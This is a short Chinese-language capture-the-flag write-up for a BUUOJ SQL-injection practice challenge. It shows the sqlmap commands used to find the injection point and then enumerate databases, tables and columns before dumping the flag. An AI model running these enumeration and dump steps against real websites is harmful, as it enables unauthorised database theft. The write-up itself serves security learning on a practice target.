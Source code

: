 # [N1book web入门]SQL注入1

**标签：`Union注入` `sqlmap`**

> 链接：[[N1book web入门]SQL注入](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]SQL%E6%B3%A8%E5%85%A5-1)

这道题本没有什么好说的，但是因为学习到了一个新工具`sqlmap`，于是就单拿出来当个例子说说`sqlmap`

**启动`Kali`打开`sqlmap`**

<img src="../../../statics\img\CTF\7.png" style="zoom:50%;" />

**查询是否可能存在注入点**

```
sqlmap -u "url"
```

<img src="../../../statics\img\CTF\8.png" style="zoom:50%;" />

在`id=1`处寻找诸如点，`sqlmap`帮我们找到了

**查数据库**

```
sqlmap -u "url" --dbs
```

<img src="../../../statics\img\CTF\9.png" style="zoom:150%;" />

**查表**

```
sqlmap -u "url" --tables
```

<img src="../../../statics\img\CTF\10.png" style="zoom:150%;" />

查到很多表，其中`note`数据库下有`fl4g`

**查字段**

```
sqlmap -u "url" -T 'table_name' --columns
```

<img src="../../../statics\img\CTF\11.png" style="zoom:150%;" />

**查数据**

```
sqlmap -u 'url' -T 'table_name' -C 'column_name' --dump
```

<img src="../../../statics\img\CTF\12.png" style="zoom:150%;" />

ok，成功拿到了flag

但是这些都是基本操作，做题遇到再继续深入吧

